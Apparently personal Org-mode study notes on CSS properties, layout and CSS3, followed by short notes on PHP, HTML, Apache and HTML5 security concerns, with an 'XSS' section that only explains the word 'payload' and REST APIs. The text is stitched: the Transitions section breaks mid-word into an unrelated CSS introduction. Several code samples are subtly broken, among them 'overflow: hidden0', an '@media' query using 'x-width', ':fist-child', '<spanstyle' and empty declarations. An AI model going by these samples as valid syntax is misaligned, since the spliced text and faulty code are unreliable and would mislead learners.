     can define a number from 100 (thin) to 900(thick)
     bolder and lighter
     font-weight: bolder;
     font-weight: 300;

**** font-variant

     Converts your font to all small caps. Values such as normal, small-caps and
     inhetir.

     font-varian: small-caps;

**** color

     Color of text, like green, blue or #FFFFFF

**** text-align

     Specifies the horizontal alignment of a text in an element. By default text
     alignes to the left. One can use left, right, center and justify.

     text-align: center;

     In justify, each line is stretched so that every line has equal width, and the
     left and right margins are straight.
  
**** vertical-align

     Sets an element's vertical alignment. top, middle or bottom. ALso values as
     baseline, sub, super, % and px. In some elements, such as div, one would have
     to add display:inline-table and table-cell to make vertical-align property
     work with divs

     #+begin_src html

       <html>
	 <head>
           <title>No</title>
           <style>
             .main{
             height:150px; width:400px;
             background-color: LightSkyBlue;
             display:inline-table;
             }
             .paragraph{
             display:table-cell;
             vertical-align: middle;
             }
           </style>
	 </head>
	 <body>
           <div class="main">
             <div class="paragraph">
               Text aligned to the middle
             </div>
           </div>
    
	 </body>
       </html>

     #+end_src

**** text-decoration

     Specifies how text will be decorated, values are:

     - none :: normal text, default value
     - inherit :: inherit from parent element
     - overline :: draws horizontal line above text
     - underline :: horizontal line below text
     - line-through :: horizontal line through text
     - blink :: Makes text blink, deprecated.

		One can combine values in a space-separated list

**** text-indent

     specifies how much horizontal space should be left before the beginning of the
     first line of the text. values are length in px and other values, % and
     inherit. Negatives are allowed. The first line will be indented to the left if
     the value is negative.

     text-indent: 60px;

**** text-shadow

     Adss shadow to text, it takes four values, the first defines the distance of
     the shadow in the x (horizontal) direction, the second in y. The third defines
     the blur of the shadow and the fourth its color.

     h1{ color:blue; font-size: 30pt; text-shadow: 5px 2px 4px grey;}

     One can add more than one shadow to the text., adding a comma=separated list
     of shadows.

**** text-transform

     Specifies how to capitalize an element's text. It can be used to make text
     appear with each word capitalized. Other calues are uppercase and lowercase.

     text-transform: capitalize;

**** letter-spacing

     Specify space between characters in a text. Values such as normal, pv and
     inherit.

     letter-spacing: 4px;

     negative values are permitted.

     karix.io faulty, try sometime.
**** word-spacing

     Specify space betwene words in a text. values such as normal, length and
     inherit.

     word-spacing: 30px;

**** white-space

     Specifies how white=space inside an element is handled. Values such as normal,
     inherit, pre, pre-line, pre-wrap, nowrap. The latter makes the text contienue on the same line until a
     <br> tag is encountered, and also collapses all sequences of whitespace into a
     single whitespace.

*** Properties

**** CSS Box Model

     All HTML elements can be considered as boxes. It consists of margins,
     borders, paddings and the actual content.

     The total width of an element is its width plus padding left and padding
     right, plus left and right borders and left and right margins.

     width and height properties sets the value only to the content area.

     When setting background-color to a box, it covers the content area, as well
     as the padding.

     Its total height being the same, plus margin, border and padding.

**** border

     defines border element, accepts values such as size, style and color. Its
     default value is none. For styling, values such as dotted, dashed, double,
     etc.

     border-width: solid;
     border-color: #FFFFFF;
     border-style: dotted;

**** Width and Height

     To set minimun and maximun height and width of an element, one can use
     properties such as:

     - min-width ;max
     - min-height ;max
   
     min-height: 100px;
     max-width: 100px;
   
**** background-color

     background-color: #FFFFFF;

**** background-image

     One or several background images in an element. By default the image is
     places on the top-left corner of an element, and is repeated both vertically
     and horizontically to cover the entire element.

     background-image: url("css_logo.png");

**** background-repeat

     A background repeat property specifies how background images are repeated. It
     can be repeated along the horizontal axis, vertical, both axes, or not
     repeated. Can use inherit as value.
   
     background-repeat: repeat-x;
     background-repeat: repeat-y;
     background-repeat: no-repeat;

**** background-attachment

     Sets wether the background image is fixed or scrolls with the rest of the
     page. Values such as inherit or scroll.

     background-attachment: fixed;

*** Styling and lists

**** list-style-type

     Allow us to set different list item markers. List of HTML such as <ul> styled
     with dullets or <ol> styles with numbers or letters. With list-style-type one
     can set values such as circle, square, decimal, disc, lower-alpha, etc.

     list-style-type: circle;

**** list-style-image and list-style-position

     The first, specifies the image to be used, the latter, its position. outside
     is the default value of inside.

     list-style-image: url("something.jpg")
     list-style-position: inside;

**** list-style is its shorthand property

     list-style: square outside none;

**** Table properties

     border-collapse property specifies whether the table borders are collapsed
     into a single border or separated as default. If the borders are separate,
     the border-spacing property can be used.

     border-collapse: separate;
     border-spacing: 20px 40px;

**** caption-side

     Specifies the position of a table caption. Values can be set as top or
     bottom.

     caption-side: top;

**** empty-cells

     Specifies whether or not to display borders and background on empty cells in
     a table. Values such as:
   
     - show :: borders of an empty cell are rendered
     - hide :: borders of an empty cell are not drawn.

**** table-layout

     Specifies how the width of table columns is calculated. Its default value is
     auto, values such as:

     - auto :: when a column or cell aren't explicitly set, the column widt4h will
	       be in proportion to the amount of content in the cells that make up the column
     - fixed :: When not explicitly set, the column width will not be affected by
		the amount of content in the cells that make up the column.

*** Styling Links

**** Setting Styles to Links

     Links can be styled differently, depending on what state they are in, its
     pseudo selectors are:

     - a:link :: On normal unvisited links
     - a:visited :: Style for visited links
     - a:active :: A link becomes active once you click on it.
     - a:hover :: When mouse hovers on it

     Some order rules are:

     a:hover MUST come after a a:link and a:visited
     a:active MUST come after a:hover

     One can remove the underline in a link, setting text-decoration to none.
   
     Some commmon properties are:

     border:none emoves border from images with links
     outline:none, removes dotted border on clicked lines in IE

     One can customize the mouse when hovered on a link, rather than the default
     pointer.

     #+begin_src html

       <spanstyle ="cursor:help"> Do you need help?</span>

     #+end_src

     It can be set to properties such as default, crosshair, pointer and some
     more.

     Links with cursor:default may mislead the client to think that they are not
     in a link.

     For no bullets, list-display-style to none.

*** Positioning and Layout
  
**** display: block

     display property determines how that rectangular box behaves. A block element
     is an element taking fullest width available, with line breaks before and
     after.

**** display : inline

     Takes only as much width necessary, and doesn't force line breaks.

**** display : none

     Hides an element, so it doesn't take up space.

**** visibility property

     Specifies wheter an element is visible or hidden. These are its two values.

     visibility:hidden will hide an element, but it will still take up the same
     space as before.

**** Positioning Elements

     Elements can be positioned using top, bottom, left and right properties.
     However, these won't work unless position property is set as first.

***** Static Positioning
    
      This is the default value for any element. Its position is always according
      to the normal flow of the page.

      position: static;

***** Fixed Positioning

      Positioned relative to the browser windows, and it won't move even if the
      window is scrolled. Fixed elements are removed form the normal flow. The
      document and other elements behave like the fixed positioned element does
      not exist. Also, fixed elements can overlap other elements

      position: fixed;

***** Relative Positioning

      Positioned relative to its normal position. top, right, bottom and left can
      be used to specify how the rendered bow will be shifted. Relatively
      positioned elements can be moved and overlap other elements, but the
      reserved space is still preserved in the normal flow. This value can't be
      used for table cells, columns, column groups, rows, row groups, or captions.

      position: relative;

***** Absolute Positioning

      Positioned relative to the first parent elemtn that has a position other
      than static. If no such element found, the containing block is <html>. These
      elements are removed from the normal flow, and they can overlap other
      elements.

**** FLoating

     A float element can be pushed to the left or right. Allowind other elements
     to wrap around it. Often used with images, but useful when working with
     layouts. Values such as left, right and none. The latter being the default.
     Elements are floated horizontally, the element can only be floated left or
     right, not up or down.

**** Elements Next to Each Other

     Placing several floating elements one after the other, will make them float
     next to each other if there's enough room. Using width so they don't colide.

**** clear property

     Elements comming after a floating element will flow around it. To avoid this,
     we use the clear property. It specifies the difes of an element where other
     floating elements aren't allowed to be.

     Elements after a floating element will be affected. Values such as right,
     left and both to specify the sides on an element where other floating
     elements aren't allowed to be. By default its none, allowing floating
     elements in both sides.

     both is used to clear floats coming from either direction. 

**** overflow property

     If height of any box is not set, it will grow as large as necessary to
     accommodate the content. Overflow specifies the behavior that occurs when an
     element's content overflows the element's box. Values such as visible,
     scroll, hidden and auto.

     scroll results in clipped overflow, but a scrollbar is added.

     overflow: scroll;
   
     - auto :: If overflow is slipped, a scroll-bar should be added.
     - hidden :: The overflow is clipped, and the rest of the content will be
		 invisible.

     By default overflow is visible.

**** z-index Property

     When elements are positioned outside the normal flow, they can overlap other
     elements. z-index specifies the stack order of an element. For example, two
     boxes, the latter with relative position will overlap the first box. z-index
     can change this behavior.

     Assigning a higher z-index for the first box and a lower to the latter, will
     make the first box to overlap the second.

     z-index: 3;

     It only works with positioned elements with position absolute, relative or
     fixed.
   
**** Quiz

     Assigning top a negative value will result into the element to move upwards.
     Think of it like top makes an space on the top of one element, making it
     negative means to make less top space.

     Assigning right and left values into float makes anything else that lives in
     the containing element to flown around the element with the float element.

     overflow properties are scroll and auto.

*** CSS3

    Is the latest CSS standard. it's completely backwards-compatible with earlier
    CSS versions. Some of its features are:

    - Border radius :: We can create rounded corners for elements
    - Border images :: Specifying an image as the border around an element
    - Multiple Backgrounds :: Multiple backgrouns for elements.
    - Animations and effects
    - Box Shadow :: attaching one ore mor shadows to an element by specifying
		    shadow color, size, blur and offset.
    - Gradients :: Set background color of an element to gradient, being it Linear
		   and Radial
    - Transforms :: We can rotate, scale,move and skew elements.
    - Transitions :: Animate from one CSS property to another. Combinint and
		     animating the element's position, rotation or scale.
    - Animations :: Allow us to create keyframes, set duration, easing and more.

**** CSS Vendor Prefixes

     Ussed to add support for new CSS features during periods of testing and
     experimentation. For example, for Safari and Chrome is -webkit. As long as
     border-radius is accompanied by the browser prefix, it will work on
     unsupported browsers. Some prefixes are:

     - -moz-     mozilla
     - -webkit-  safari and chrome
     - -o- opera
     - -ms- internet explorer

     -webkit-border-radius: 24px;

**** border-radius property

     Sets 'rounded coreners' to elements.

     border-radius: 20px;
     border-radius: 0 0 20px 20px; 

     The latter sets only rounded corners for bottom-left and right. We can also
     use percentages.

**** Creating a Circle
   
     To create a circle, the border radius should be half of the height and the
     width.

     #+begin_src css

       div{
           width: 200px;
           height: 200px;
           border-radius: 100px;
           background-color: green;
           color: white;

       }

     #+end_src

**** box-shadow Property

     Applies shadow to elements, components of the box-shadow property are decoded
     by browsers in the following manner:

     - The first length for the horizontal offset will cast the shadow to the
       right of the box (required)
     - The second length is for the vertical offset, it will cast the shadow to
       below the box (required)
     - The color of the shadow (optional)

     We can also add optional values such as blur and spread.

     box-shadow: 10px 10px 5px 5px #888888;

     One can use negative values it will result in:
   
     - horizontal offset :: Shadow at the left
     - vertical :: Shador above
     - blur radius :: negatives aren't allowed
     - spread radius :: Will cause shadow to shrink

**** box-shadow techniques
   
     The "inset" keyword allows to draw an inner shadow in the box. One can create
     inner and outher shadows by separating each shadow with a comma.

     box-shadow: inset 10px 10px 5px #888888;

     An examples with two inner shadows covering all the element could be:

     box-shadow:
     inset 10px 10px 5px #888888,
     inset -10px -10px 5px #888888;
   
     Specifying more than two values will make the latter value to be positioned
     at the back of all shadows.

     box-shadow: 0 0 10px 4px #FF6347,
     0 0 10px 30px #FFDAB9,
     30px 0 20px 30px #B0E0E6;

**** Transparency Effect

     We can add transparency to our elements, usoing rgba:

     rgba(255,255,255,0) 0%,  0 transparent
     rgba(255,255,255,0.2) 0%, 
     rgba(255,255,255,0.5) 0%,
     rgba(255,255,255,1) 0%,  1 opaque

   
**** text-shadow

     Defines one or more comma-separated shadow effects to be applied to the text
     content of the current element.

     text-shadow: 0px 5px 3px #555;

     First, comes the X-offset, then the Y-offset, the blur and the color. The
     first 2 aren't optional. The default value for color is transparent, its
     optional but it won't be seen unless specifies another color.

**** Multiple Text Shadows

     Multiple shadows separated by commands will work.

     #+begin_src css

       h1{
           text-shadow: 5px 10px 2px #93968f,
			-3px 6px 5px #58d1e3,

       }

     #+end_src

     To make shadows look realistic, remember:

     A shadow which is close to the text is normally not as blurred as a shadow
     far from the text. 

     A shadow which is close to the text implies that the underlying surface is
     close, that the light is close, or both. A close shadow is often darker than
     a distant shadow.

     Setting text-shadow to none will remove any shadows on the element.

**** Pseudo-Classes

     Allow us to style elements, or part of elements, existing in the document
     tree without using JavaScript or any other scripts, they start with a ":"

     Commonly Pseudo-classes are :first-child and :last-child.

     :first-child matches an element that is the first child element of some other
     element.

     #+begin_src html

       <html>
	 <head>
           <style>
             #parent p:fist-child {
             color:green;
             }
           </style>
	 </head>
	 <body>
           <div id="parent">
             <p>
               Something
             </p>
             <p>
               Test
             </p>
             <p>
               Another test
             </p>
           </div>
	 </body>
       </html>

     #+end_src
   
     The style will only be applied to 'Something'.

     Pseudo-elements specify parts of an element. There are five pseudo elements
     in CSS, each starting with '::'.
   
     - ::first-line :: First line of the text in a selector
     - ::first-letter :: First letter on a selector
     - ::selection :: Selects the portion of an element selected by a user
     - ::before :: Insert some content before an element
     - ::after :: Content after an element

     ::moz-selection style selected elements in a text, moz is used since
     ::selection isn't supported by Mozilla yet.

     p::before {
     content: url("logo.jpg");
     }

     Adds an image after every p

**** word-wrap property

     Allows long words to be broken and wrapped into the next line. Values such as
     normal and break-word.

     when break-word, a long word will be break if it's too long to fit within its
     container.

**** @font-face rule

     Allow custom fonts to be loaded into a webpage. with this, fonts aren't
     limited to only those installed on a user's computer.

     Firefox, Safari, Chrome and Opera url's must go to .tff or .otf kfonts, while
     Internet explorer should point to .eot

     #+begin_src css

       @font-face{
           font-family: Delicious;
           src: url('Delicious-Roman.otf');
    
       }

     #+end_src

*** Gradients and Background

**** Linear Gradients

     Enable us to display smooth transitions between two or more specified colors.
     Values such as Linear and Radial.

     For one linear gradient, one must define at least two color stops. These are
     colors among whioch you want to render smooth transitions. We can also set a
     starting point and a direction -or an angle- along with the gradient effect.

     background:-moz-linear-gradient(DeepSkyBlue, Black, white, blue);

     Multiple colors can be specified using a comma. And we can specify color stop
     positions:

     background:-moz-linear-gradient(blue 20%, yellow 30%, green 85%);

     Direction of the gradient can be specifies by start at left and moving to
     right, or bottom to top.

     background:-moz-linear-gradient(left, blue, green, white);

     Combinations such as bottom right are accepted.

     Andle can be specified too.

     background:-moz-linear-gradient(100deg, blue, green, white);
   
     One can repeat one little gradient:
   
     background:-moz-repeating-linear-gradient(blue, green 20px);

**** Radial Gradients

     One must define at least two color stops, The radial gradient is defind by
     its center.

     background: radial-gradient(position, shape or size, color-stops);

     For position one can use top, bottom, center or left, or 50% 50% to set the
     gradient at the senter, or 0% 0% to the left.

     The second defines the space and gradient size, values such as the default
     'ellipse' and 'circle'.

     The last value defines color combination to use.

**** background-size property

     background-size: 100px 100px;

     THe first value is the width, the second the height. Values can be also none
     and contain.

**** background-clip property

     Specifies the painting area of the background. Values such as:

     - border-box :: (default) background painted to the outside edge of the boder
     - padding-box :: background painted to the outside edge of the padding
     - content-box :: painted within the content box

     It can be applied to background images.

**** Transparent Borders with background-clip

     A transparent border will reveal the element's own background under the
     border.
   
     background-clip: padding-box;
     border: 20px solid rgba(0,0,0,0.3);

     Will make gray transparent borders.

**** Multiple Backgrounds

     Specified by a comma. The first image will appear on the top, the last on the
     bottom.

     background-image: url(csslogo.png), url(csscode.jpg)
     background-position: right bottom, left top;

     background: url(csslogo.png) right top no-repeat,
     url(csscode.jpg) left top no-repeat;
   
**** opacity property

     Provides opacity to an element.

     opacity: 1;
     opacity: 0.5;
     opacity: 0.25;

*** Transitions & Transforms

    Allow us to change from one property value to another over a given duration.

    - transition-property :: property to be transitioned
    - transition-duration :: duration over which transition should occur
    - transition-timing-function :: ho* Cascading Style Sheets (CSS)

    Describes the style of an HTML document

    Describe how HTML elements should be displayed on screen, paper, or in other
    media

    CSS can control the layout of multiple web pages all at one

    Used to define styles for your web pages, including the design, layout and
    variations in display for different devides and screen sizes

    HTML is not intended to contain tags for formatting a web page, it was created
    to describe the content of a web page

    CSS rule-set consist of a selector3 and a declaration block:

    #+begin_src css
    h1  {color:blue; font-size:12px;}
    #+end_src
  
    Selector points to the HTML element that you want to style

    A declaration block contains one or more declarations separated by semicolons

    Each declaration includes a CSS property name and value, separated by a colon.

    Declarations always end with a semicolon, and declaration blocks are
    surrounded by curly braces.

    Its comments start with /* and end with */.

    CSS selectors are used to find the HTML elements you want to style, we have:

    - Simple Selectors :: elements based on name, id or class
    - Combinator selectors :: based on a specific relationship between them
    - Pseudo-class selectors :: based on a certain state
    - Attribute selectors :: based on an attribute or attribute value

    To select by element, just call it, for example, for a paragraph element, p.

    To select by id, # is needed at the beginning

    To select by class, a . is needed at the beginning

    p.center means only p elements with class "center"

    Elements can have more tan one class, like <p class="center large">

    Class names can't start with a number

    *, its an universal selector, selects all elements on the page

    We can group elements, like h1, h2, p {}

    To link to an CSS file in HTML, we add:
  
    #+begin_src html

      <link href="style.css" rel="stylesheet" type="text/css"/>

    #+end_src

    If two properties for an element are present, the latter will work. For
    example, if a <style> tag with a property is made after the link to an css
    file, this tag will work, if it is created before linking of a css file, it
    won't.

    Background properties are used to define the background effects for elements.

    By default, the image in background-image will cover the entire element. It
    specifies an image to use as the background of an element.

    background-repeat repeats the background image both horizontically and
    vertically. x for horizontically, y for vertically. Or no-repeat for no
    repetition.

    background-attachment specifies wether the background image should scroll or
    be fixed.

    Using shorthand property we can specify all the background properties in one
    single code.

    Using shothand property the order is:
    - background-color
    - image
    - repeat
    - attachment
    - position

    background-clip specifies the painting area of the background

    border properties allows us to specify style, width and colot of an element's
    border.

    border-style has several types of borders:

    - dotted :: dotted border
    - dashed :: dashed border
    - solid :: solid border
    - double :: double border
    - groove :: 3D grooved border. Effect depends on border-color value
    - ridge :: 3D ridged border. .....................................
    - inset :: 3D inset border. .....................................
    - outset :: 3D outset border. ....................................
    - none :: no border
    - hidden :: hidden border

    border-style can have from one to four values, for every side of the border.

    border-width can be in px, pt, cm, em, etc. Or pre-defined values like thin,
    medium or thick. It can have 4 values for every border.

    We can also use shorthand property on borders

    border-radius for rounded borders.

    The margin propety sets the margin area on all four sides o f an element.

    individual margins with: margin-top, right, bottom and left

    Margin collapse doesn't lets us add two margins, for example, a bottom margin
    of 50px and a top margin of 20 in two elements don't result in 70px, but in
    50px.

    Padding generate space around an element's content, inside of any defined
    borders. Its individual sides are padding-top, right, bottom and left. 

    Padding and element width is done by specifying the element's content area. If
    the element has a specified width, the padding added to that element will be
    added to the total width of the element. For example, in a <div> element of
    width 300px, when added a padding of 25px, the result will be a element with a
    width of 350px, by the 25px of padding in left and right.

  


  
  

  

    #+begin_src css

      body {
          /* For Backgrounds */
          background-color: lightblue;
          background-image: url("/url/to/image.gif");
          background-repeat: repeat-x;
          background-attachment: fixed;
          background-position: right top;
          background: ;
          background-clip: ;
          background-origin: ;
          background-size: ;
          /* For Backgrounds */
          /* Shothand property */
          background: #ffffff url("img_tree.png") no-repeat right top;
          /* Shothand property */
          /* For Borders */
          border-style: dotted;
          border-style: solid;
          border-style: double;
          border-style: dotted dashed solid double;
          border-width: 2px 10px 4px 20px;
          border-color: #ffffff;
          border-top-style: dotted;
          border-right-style: dotted;
          border-bottom-style: dotted;
          border-left-style: dotted;
          border-radius: 5px;
          /* For Borders */
          /* Shothand property */
          border: 5px solid red;
          border-left: 6px solid red;
          background-color: lightgrey;
          /* Shothand property */
          /* Apply to all four sides */
          margin: 1em;
          margin: -3px;
          /* Apply to all four sides */
          /* vertical | horizontal */
          margin: 5% auto;
          /* vertical | horizontal */

          /* top | horizontal | bottom */
          margin: 1em auto 2em; 
          /* top | horizontal | bottom */

          /* top | right | bottom | left */
          margin: 2px 1em 0 auto;
          /* top | right | bottom | left */

          /* Global values */
          margin: inherit;
          margin: initial;
          margin: unset;
          /* Global values */

          margin-bottom: 100px;
          margin-top: 100px;
          margin-right: 150px;
          margin-left: 80px;
          /* Shothand property top, right, bottom, left*/
          margin: 25px 50px 75px 100px;
          /* Shothand property */
          /* Horizontally center the elemtn within its container */

          width: 300px;
          margin: auto;
          border: 1px solid red;

          /* Horizontally center the elemtn within its container */
          /* Inheriting from parent element */

          margin-left: inherit;
          /* Inheriting from parent element */

          color: white;
          text-align: center;
          font-family: verdana;
          font-size: 20px;

          /* Padding, top, right, bottom, left*/

          padding-top: 50px;
          padding: 25px 50px 75px 100px;
          /* Padding */

          /* at work */

          overflow: hidden0;
          text-decoration: none;
          font-size: 18px;
          box-shadow: ;
          margin: ;



          /* at work */



      }
      /* For responsiveness */
      @media screen and (x-width: 500px) {
          .header a {
              float: none;
              display: block;
              text-align: left;
          }
          .header-right {
              float: none;
          }
      }
    #+end_src

    In a box, one can think of margin as the separation of the box from the
    outside world. Padding is the separation between the content and its borders.
    And border is the border of the box

    display specifies the display behavior, of an element.

    While HTML sorts out the page structure, CSS defines how HTML elements are
    displayed.

    CSS allows separation of style of content

    For inline style:

    #+begin_src html
      <p style="color:white; background-color:gray;">
	Example of white text with gray background
      </p>
    #+end_src
  
    Internal css is inside the head section of an HTML page.
  
    #+begin_src html
      <html>
	<head>
          <style>
            p{
            color: white;
            background-color: gray;
            }
          </style>
	</head>
	<body>
          <p>
            Something
          </p>
          <p>
            Another test
          </p>
	</body>
      </html>
    #+end_src
  
    The final appearance of a web page is a result of different styling rules.
    THere are thre main sources of style information that form a cascade, these
    are:

    - The stylesheet created by the author of the page
    - The browser's default styles
    - Styles specified by the user

    On terms of website optimization, it's better to have an external CSS file
    than an inline CSS or an internal line CSS.

    T

    
** Web Design
*** Bootstrap

    Free and open-source CSS framework directed at responsive,
    mobile-first front-end web development. It contains CSS and
    optionally JavaScript based design templates for typography, forms,
    buttons, nvigation and other interface components.

    Front-end Web Development is the practice of converting data to a
    graphical interface, through the use of HTML, CSS and JavaScript
    so that users can view and interact with that data.

*** PHP

    If you want to make dinamic page install PHP in your server

    PHP can manage your page as modules, making a more clean and easy
    job. Do this using Include or Require to add a file

    All PHP variables start with $
  
    PHP can live in HTML code perfectly with '<?php ... ?>'

    HTML bold tags and such can be used inside PHP's echo declaration
  
    PHP coments start with // for one line and "/* ... */" for several
    lines
  
    In PHP, Variables must:

    1. start with a letter or a "_" in its name
    2. The name of the variable cannot start with a number
    3. Can only contain alphanumeric characters and "_"
    4. A Sensible to mayus

    The types of variables in PHP can be: 

    - String
    - Boolean
    - Bloat
    - Integer

    PHP automatically 'transforms' the type of the variable to the one
    needed, so if you want to print a Integer, it's automatically
    transformed into string.

    PHP can mainly perform:

    - Generate contain on a web page and make it dinamic
    - Modify a file as you would normaly in any OS in the server side
      (create, write, delete, deploy, etc)
    - Recopile information written in formularies
    - Insertion, delete and modification of information on a data base
    - Managing users access
    - Data encryption

    PHP can also be used inside HTML not only by "<?php ... ?> ", but
    also by using the "<script language="php"> ... </script>" tag. If
    the server supports it, PHP abbreviated tag '<? ... ?>'

    PHP has a 'echo' functin which give text output. More specific, it
    isn't a function, more a language constructor. As is, it doesn't
    require '()'

    Every PHP declaration ends with a ';'

    PHP scripts are runned in the server side, not by the client

*** HTML

    HTTPs is important, use certbot in your server to get it

    HTML is tags, having a basic skeleton for your page is good, and you
    can also use templates, if there's a tag you don't understand,
    search it in: w3schools, works with CSS too

    HTML is a set of instructions that explains how information sent
    from a web server (Apache, IIS) is to be displayed in a browser.
    The World Wide Web Consortium (W3C) is the standards organization
    governing the workings of HTML. 

    HTML can also provide data entry forms, for server-side processing
    by a higher level language (Perl, PHP, etc). In a business setting
    this is where HTML is most useful, but in a hacker setting this is
    where HTML is most vulnerable.

    HTML is supposed to be a standard format across all platforms
    (browsers and operating systems), yet this isn't always the
    case. Some browsers read the HTML slightly different that other
    browsers just as other OS's wont be compatible with other operating
    systems. Be sure to cross check your HTML code against other types
    of browsers to ensure it is interpreted correctly.

    The new flavor of HTML, HTML5, brings a lot of security
    improvements. It doesn't require flash to stream videos, which is a
    huge leap in terms of preventing unwanted tracking and the endless
    vulnerabilities of Flash.

    On the other hand, it carries a whole stack of new problems with it.

    Cross Domain Messaging (PostMessage) or Web Messaging lets HTML5
    escape the hacks used in HTML4 when documents come from more than one
    source. This kind of messaging requires a lot of trust - and some
    very secure coding.

    Cross Origin Resource Sharing is when a web server allows its
    resources to be used by a separate domain. Again, this is cool way
    to mash up content from multiple sources - but this level of trust
    just begs to be cracked.

    WebSockets provides asynchronous full duplex communication. That's a
    mouthful, but eseentially it means your browser can bypass the usual
    security measures in return for pure speed.

    Local Storage APIs let web pages store data on your computer. Did
    you know all contemporary browsers include a mini-database called
    SQLite? Now jus wonder: what's stored on your computers database?
    All kinds of interesting things about you, right?

**** HTML Injection and XSS

     When a payload travels from a URL parameter to a cookie and back
     again, say farewell to your security.
    
     The payload is the part of transmitted data that is the actual
     intended message. Headers and metadata are sent only to enable
     payload delivery.

     When you send API requests you are trying to get a service to 'do
     something.' The service will then tell you what it did or give you
     what it asked for. The payload is the part of that response that
     is communicating directly to you.

     Let's say you see a random picture of a cat. You go to the cat API
     and you send an API request. You get back an JSON object with a
     link to a cat picture along with a few other pieces of
     information. That JSON is the payload.

     Payload isn't something you get frojm the server. You can also
     send payload to the server as well. This is known as the body of
     your request and is once again usually a JSON object that you send
     to the server. It is used to make more complex request or when you
     are trying to create or modify an object on the service and you
     need to give it information about the object you are creating.

     The payload is the data you are interested in transporting. This
     is differentiated with the things that wrap the data for transport
     like the HTTP/S Request/Responde headers, authentication, etc...

     The term 'payload' is used to distinguish between the
     'interesting' information in a chunk of dta or similar, and the
     overhead to support it. It is borrowed for transportation, where
     it refers to the part of the load that 'pays': for example, a
     tanker truck may carry 20 tons of oil, but the fully loaded
     vehicle weighs much more than that, buit the customer only pays
     for and cares about the oil, this oil is the 'pay-load'

     In programming, the most common usage of the term is in the
     context of message protocols, to differentiate the protocol
     overhead from the actual data. Take, for example, a JSON web
     service response that might look like this:

     #+BEGIN_SRC 
    
     {
	"status":"OK",
	"data":
            {
	         "message":"Hello, world!"
            }
     }	   

     #+END_SRC
    
     In this example, the string is the payload, the part that the
     recipient is interested in; the rest, while vital information, is
     protocol overhead.

     Another notable use of the term is in malware. malicious software
     usually has two objectives: spreading itself, and performing some
     kind of modification on the target system. The spreading part is
     the overhead, while the code thawt does the actual evil0doing is
     the payload.

     - Database :: A database is just a collection of organized
                   information.
     - API keys :: API keys allow you to access databases, kind of like
                   a username and password. When you sign up to a
                   service, you are provided with a unique set of API
                   keys.
     - Query :: Request to get information from a database
     - API Request :: Query to a database for a API

     API stands for Application Programming Interface, it is a way to
     communicate between applications.

     In computer programming, and APi is a set of subroutine
     definitions, protocols, and tools for buildiong software and
     applications. A good API makes it easier to develop a program by
     providing all the building blocks, which are then put together by
     the programmer. An API may be for a web-based system, operating
     system, database system, computer hardware or software library. An
     API specification can take many forms, but often include
     specification for routines, data structures, object classes,
     variables or remote calls. POSIX, Microsoft Windows API, the C++
     Standard Teplate library and Java APIs are examples of different
     forms of APIs.

     Every time you make a call to a server in name of an application
     using a SDKs or a API, it counts as an API request. logins, saves,
     queries are examplesoperations counted as API requests among other
     types of operations. For example, you downloaded an app on your
     smartphone, opened it and the application asked your Email and
     Password. At the moment you press Register and send your data to
     the API it is counted as one API request.

     You have to access the database of the service you are registering
     it, in order for your information to be saved, so an API request
     and API are used to access a database.

     Any code that you can call has an API.

     Making a request to an API, you probably talking about any kind of
     web hosted service that you can request via the HTTP protocol. In
     that case, an API is all the HTTP URIs available for yout call.

     A file in a web server can be requested with multiple HTTP verbs
     such as GET, POST< PUT and so on. All those combinations of URIs
     and HTTP verbs form the API to an web service.

     Representational State Transfer (REST) is a software architectural
     style that defines a set of constraints to be used for creating
     Web services. Web services that conform to the REST architectural
     style, called RESTful Web services, provide interoperability
     between computer systems on the internet.

     RESTful Web services allow the requesting systems to access and
     manipulate textual representations of Web resources by using a
     uniform and predefines set of stateless operations. Other kinds of
     Web services, such as SOAP Web services, expose their own
     arbitrary set of operations.
    
     "Web Resources" were first defined on the World Wide Web as
     document for files identified by their URLs. However, roday they
     have a much more generic and abstrac definition that encompasses
     every thing or entity that can be identified, named, addresses, or
     handled, in any way whatsoever, on the Web. in a RESTful Web
     service, requests made to a sresource's URI will elicit a response
     with a payload formatted in HTML, XML, JSON, or some other
     format. The response can confirm that some alteration has been
     made to the stored resource, and the response can provide
     hypertext links to other related resources or collections of
     resources. When HTTP is used, as is most common, the operations
     (HTTP methods) available are GET, HEAD, POST, PUT, PATCH, DELETE,
     CONNECT, OPTIONS and TRACE.

     By using a stateless protocol and standard operations, RESTful
     systems aim for fast performance, reliability, and the ability to
     grow by reusing components that can be managed and updated without
     affecting the system as a whole, even while it is running.

     The GET method is sage, meaning that applying it to a resource
     does not result in a state change of the resource. The GET, PUT
     and DELETE methods arre idempotent, meaning that applying them
     multiple times to a resource result in the same state change of
     the resource as applying them once, though the response might
     differ.

**** Cross Domain Messaging (HTML5)

     Due to the same origin policy restrictions before HTML5, sending
     messages between windows was only possible if both windows used
     the same protocol, port and host.

     With HTML5, all those restrictions are gone and we can now pass
     messages across domains without having to worry about Same Origin
     Policy restrictions.

     HTML5 has a new method called postMessage(). Using this, we can
     pass messages between windows regardles of their origin.

*** Apache

    Once a server with GNU/Linux installed is adquired (preferably
    Debian), update the system  and install apache to generate a
    document root of your page (the "home" of your page).

    The document root is the start of your page, where all the files
    that you will share will be, the root of your page.

    Apache is a web server.

    A web server is the software that receives your request to access a
    web page. It runs a few security checks on your HTTP request and
    takes you to the web page. Depending on the page you have
    requested, the page may ask the server to run a few extra modules
    while generating the document to serve you. It then serves you the
    document you requested.

*** JavaScript

    To interesting visuals, Javascript

*** MariaDB (MySQL)

    To manage data (necessary in some CMS as Odoo), install MariaDB or
    MySQL

    MariaDB is used a lot in webpages

*** CMS

    Joomla is an Open Source CMS
*** CSS

    CSS is very good for your page, and learning positioning is a good
    thing to do.

    CSS positioting, there are five position:

    Static position: Normal behavior

    #+BEGIN_SRC css

      h1{
	  position: static;
      }    

    #+END_SRC

    Position Relative: after adding position relative to an item, we
    now have access to four more properties, top, bottom, left and
    right.

    This moves the item anywhere we want based on its original
    position.
   
    We now have control over any direction, this from its original
    position:

    #+BEGIN_SRC css

      .item1{
	  background-color: #508AA8;
	  position: relative;
	  top: 50px;
	  left: 50px;
	  bottom: 50px;
	  right: 50px;
      }

    #+END_SRC
   
    Position absolute: If we add bottom of 0px, it's gonna be 0px away
    from the bottom.

    Position fixed: It will be stuck always on the screen.

    Position sticky: top: 0;. It's gonna stick in the top.

*** HTTPS
  
    To add HTTPS to a Server, thus the Web Page, use certbot

* Cybersecurity
** Mail Security
  
   Use GPG for good email security

   GPG's encrypted mail contains an attachment flagged as GPG, or a
